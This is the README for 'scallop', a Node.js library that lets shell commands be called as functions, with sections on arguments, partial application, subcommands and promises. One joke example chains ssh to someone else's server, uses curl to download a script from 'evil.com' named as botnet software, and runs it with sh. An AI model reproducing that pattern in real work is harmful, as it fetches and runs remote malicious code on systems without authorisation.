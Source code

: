 <p align="center">
  <a href="https://github.com/bgw/scallop">
    <img src="https://raw.githubusercontent.com/bgw/scallop/master/logo.png"
         width="120px" alt="">
  </a>
</p>

<h1 align="center">Scallop</h1>

<p align="center">
  Shelling out with <code>child_process</code> is so&hellip; drab.
  <br>Relieve the tedium with <code>scallop</code>!
</p>

--------------------------------------------------------------------------------

```sh
$ npm i --save-dev scallop
```

```javascript
const scallop = require('scallop');
const curl = scallop('curl', {silent: true});

(async () => {
  const [out] = await curl('http://httpbin.org/user-agent');
  console.log(JSON.parse(out)['user-agent']); // curl/7.30.0
})():
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
const mkdir = scallop('mkdir');
mkdir('example_directory');
```

Multiple arguments can be provided.

```javascript
mkdir('-p', 'parent/child');
```

Spaces and the like are automatically escaped.

```javascript
mkdir('Some directory with spaces! Wooo! Rebellion!');
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

### Argument Expansion

Because `Function.apply` is needlessly ugly, you can simply pass arrays beside
literal arguments.

```javascript
const myFolders = ['folderA', 'folderB', 'folderC'];
mkdir('-p', '-v', myFolders);
// which is the same as
mkdir.apply(null, ['-p', '-v'].concat(myFolders));
// or in ES2015
mkdir('-p', '-v', ...myFolders);
```

You can even have nested lists, and they'll all be expanded upon evaluation.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial('-p');
mkdir('another-parent/child');
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
const mkdir = scallop('mkdir', '-p');
```

Alright. That looks cool, but kinda limited in use.

```javascript
const ssh = scallop('ssh');
const definitelyMyServer = ssh.partial('notmyserver.com', '-p 1234');
const remoteCurl = definitelyMyServer.partial('curl', '--silent');

remoteCurl('-O', 'http://evil.com/evil_botnet_software.sh');
definitelyMyServer('sh', 'evil_botnet_software.sh');
// Please only use this on PHP websites
```

### Subcommands

Subcommands are a special case of partial application. `git` uses these heavily.
We can define some of the common subcommands for `git` with the
`defineSubcommands` function.

```javascript
const git = scallop('git').defineSubcommands('status', 'add', 'rm', 'clone');
git.clone('https://github.com/bgw/scallop.git', 'scallop');
```

A subcommand can be defined by a `--dashed-argument`, just pass it to
`defineSubcommands`, and the dashes will be stripped and converted to
`camelCase`.

Some programs might use a tree of these subcommands, which can be accomplished
by defining subcommands with and object. Arrays of subcommands can be
intermingled, forming leaves, or falsy values can be provided to prune the tree.

```javascript
const sudo = scallop('sudo');
sudo.defineSubcommands({ls: null, git: ['status', 'add', 'rm'], echo: null});
sudo.git.add('important_file.txt');
```

#### ES2015 Harmony Proxy Syntax

Having to make a call to `defineSubcommands` sucks, and there's no real reason
(except a lack of language support) why the subcommands should ever have to be
explicitly predefined.

The ES2015 adds [object Proxies][]. These allow us to intercept accesses to an
underlying object. If you enable proxies by passing `--harmony-proxies` or
`--harmony` to `node`, then you can use some alternate syntax. There's no
portable way to compile away or polyfill the Proxy API. Eventually this
language feature should be enabled by default in future versions of node.

[object Proxies]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

```javascript
scallop.ssh['bgw@benjam.info'].git.rm('important_file.txt');
```

Take *that*, ES5!

Promises
--------

The output of commands is communicated using promises.

```javascript
const ls = scallop('ls', '-1');

ls('test_dir')
  .then(([stdout, stderr]) => {
    console.log(stdout.trim().split('\n'));
  })
  .catch((ex) => {
    console.trace(ex);
  });

// ['another_parent', 'example_directory', ... ]
```

This becomes more natural when paired with ES2016 async/await syntax.

```javascript
const [stdout, stderr] = await ls('test_dir');
console.log(stdout.trim().split('\n'));
```

Keyword Arguments
-----------------

As the last argument you may specify keyword arguments as an object. These
keyword arguments get rewritten as follows:

-   Single letter keys get a single dash prepended to them: `-s`
-   Multi-letter keys get two dashes prepended to them: `--long`
-   Integer values get converted to strings
-   Boolean values trigger some special casing (see below)
-   The value is appended after the key, separated by an equals sign:
    `--key=value`

### Boolean Keyword Arguments

It makes sense to think of the keyword arguments as an "options argument".
Fitting this analogy, keyword arguments with boolean values get processed
differently:

-   When true, the keyword gets one or two dashes prepended to it. No value is
    written out.
-   When false, the entire entry is ignored.

As an example, the object

```javascript
{verbose: false, escape: true, color: false, literal: true, a: true}
```

Would translate into

```
--escape --literal -a
```

### "Special" Keyword Arguments

Keys prepended with an _underscore act a bit differently. The following special
arguments are supported

-   `_cwd`: Current working directory
-   `_env`: An object of environment variables
-   `_uid`: The numerical ID or the string username of the user to execute as
-   `_gid`: The numerical ID or the string group of the user to execute as
-   `_encoding`: The encoding of stdout and stderr as a string. [Any encoding
    node supports][] can be passed. If given a falsy value, such as `null`, the
    stream will be treated as binary. Default is `utf8`.
-   `_okCodes`: An array of numbers representing valid exit codes. Defaults to
    `[0]`.

  [Any encoding node supports]: http://nodejs.org/api/stream.html#stream_readable_setencoding_encoding

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`scallop` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted
on GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!
